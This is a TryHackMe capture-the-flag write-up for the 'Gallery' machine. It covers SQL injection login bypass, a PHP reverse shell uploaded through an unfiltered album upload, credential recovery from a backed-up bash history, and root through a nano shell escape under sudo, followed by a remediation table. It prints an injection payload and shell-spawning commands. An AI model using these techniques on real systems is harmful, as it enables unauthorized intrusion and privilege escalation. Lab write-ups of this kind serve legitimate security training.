# Gallery — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.64.178.172 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**Gallery** is a TryHackMe machine running a vulnerable PHP application called Simple Image Gallery System. The login form is vulnerable to SQL injection, which allows an authentication bypass straight into the Administrator dashboard. From there, the album upload feature accepts any file extension without validation, making it possible to upload a PHP reverse shell and get code execution as www-data. A world-readable backup of the user mike's home directory exposes his bash history, which leaks his password after a mistyped sudo command, granting access to his account and the user flag. Finally, a misconfigured sudo rule lets mike run a script as root that opens nano on a root-owned file, which is abused with a classic GTFOBins trick to spawn a root shell.

**Attack chain:** SQL Injection Authentication Bypass → Unrestricted File Upload (RCE) → Reverse Shell as www-data → Credential Leak in Backup Directory → su to mike (User Flag) → sudo NOPASSWD rootkit.sh → GTFOBins nano → Root

## 1. Reconnaissance — Nmap Scan

An Nmap scan reveals three open ports: SSH, the Apache default page on port 80, and `Simple Image Gallery System` on port 8080. Nmap also flags port 8080 as a potential open HTTP proxy.

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.64.178.172

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:31:92:fb:aa:89:bd:89:19:b1:fc:ed:77:51:0f:2a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCZKr1spioPCmlAW/JwenCqcAuctN6dtPfcNiTmxiO7uH5cbwFIusCNELuhIxS7RkLtJbSlPWDQQ3c/83YcfNMnaienXDtGzJEQFO7nrCe0UwTPfXrFHtWLSZdMAw59nXoRm7N9kvaY1hQVpCgIg2UHPfb0qPTfgfC+UBensUJwbB7uevnXgJF5aw/oxU+LzEY90WqEEnXS6MT3E/NUmuet7Kixq9LI2ntmAVAzHnMDAvV4pL4tXzQ59VV/ZTJ+GJ3O5KdpUKzANYAz4P3g7aUZE59TY1pDM3mZ683aZgea6+FKTC3sb7vF/Y6J0AU13nYpbl6pdPEG9hvwhHR/2YbGk3RKkt2c0xnAANGEmFkFEjEK/YAMsSBGAVz8L/gT0tiJM1mP+gfbV7yPbjoV9GiLJXHukVtC/RGlx7o4kfFVfTUS8/TaNjR/v2r5YdvhE/kEOQjOkioPAtDA04n3OEo5tjp5JZLXhxmlHjW+kOxfHNiIgXPePfmxmo0rc8oNpL0=
|   256 de:66:d8:43:8b:3f:98:63:9c:2d:92:47:3d:03:65:ac (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKmhOf8dH5dOM9VnSvGWu8QzRFrNFTFN9ZKAfm9KGZqhCSSa7+s67/NiBkraJzO/LZGO6IvyvpLdI9tmznRnVVU=
|   256 4f:b6:04:ed:2e:6d:d9:02:91:54:c1:d6:58:8a:a6:1c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPf52lGJgTvJo6OskzBBzqdDdYYI+wPNih9PgMegvQrH
80/tcp   open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Simple Image Gallery System
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 67D7807F690EBC08EA883715852ECE48
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## 2. SQL Injection — Authentication Bypass

The application running on port 8080 is `Simple Image Gallery System`, a login-gated image gallery. Its login form submits a `username`/`password` pair directly into the backend query.



Submitting `' OR '1'='1'-- -` in the username field, with any value in the password field, bypasses authentication entirely:



This logs in as `Adminstrator Admin`. The dashboard header confirms the app name, `Simple Image Gallery System`, and the footer credits `oretnom23` with `v1.0`.



## 3. Remote Code Execution via Unrestricted File Upload — Shell as www-data

With admin access, the `Albums` section exposes an `Add New` button to create albums and an `Upload` feature inside each album.



A new album, `Pwned`, is created to test the upload functionality.







The upload feature performs no extension filtering. Uploading `virus.php` — `pentestmonkey`'s `php-reverse-shell.php` configured with the attacker's IP and port — is accepted and stored as-is:



With a listener running, clicking the uploaded file triggers the payload and returns a shell as `www-data`:



The TTY is then stabilized:

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

## 4. Credential Leak in Backup Directory — Lateral Movement to mike

`mike`'s actual home directory is not readable by `www-data`, but `/var/backups/mike_home_backup/` holds a world-readable backup copy of it. Its `.bash_history` shows a password typed directly into the shell right after a `sudo -l` command, instead of into the password prompt:

```
cd ~
ls
ping 1.1.1.1
cat /home/mike/user.txt
cd /var/www/
ls
cd html
ls -al
cat index.html
sudo -lb3stpassw0rdbr0xx
clear
sudo -l
exit
```

The leaked password, `b3stpassw0rdbr0xx`, works for `mike` via `su` and yields the user flag:



## 5. Privilege Escalation via sudo NOPASSWD — GTFOBins nano to Root

`sudo -l` as `mike` shows a passwordless rule to run `rootkit.sh` as root:

```
Matching Defaults entries for mike on ip-10-64-178-172:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on ip-10-64-178-172:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

`/opt/rootkit.sh` is an interactive menu wrapping `rkhunter`, with a `read` option that opens `/root/report.txt` in `nano`:

```
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

Running it as root via `sudo` and choosing `read` opens `nano` as root. Inside `nano`, pressing `Ctrl+R` then `Ctrl+X` prompts for a command to execute, which runs with `nano`'s own privileges:

```
sudo /bin/bash /opt/rootkit.sh
read
```

Entering `reset; bash 1>&0 2>&0` at that prompt spawns a root shell:





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| SQL injection in the login form allows authentication bypass | Use parameterized queries / prepared statements instead of concatenating user input into SQL statements |
| Unrestricted file upload accepts any extension, including `.php` | Validate file type via server-side MIME/content inspection, whitelist allowed extensions, and disable script execution in the uploads directory |
| World-readable backup of a user's home directory exposes `.bash_history` | Restrict backup directory permissions to the owning user only (`chmod 700`) |
| Plaintext password exposed in shell history after a mistyped `sudo` command | Clear sensitive entries from shell history; train users not to type passwords as commands |
| `sudo` NOPASSWD rule allows running a script that spawns `nano` as root | Avoid granting `sudo` on scripts that launch interactive editors with shell-escape features; drop the `read` option or replace `nano` with a restricted viewer |
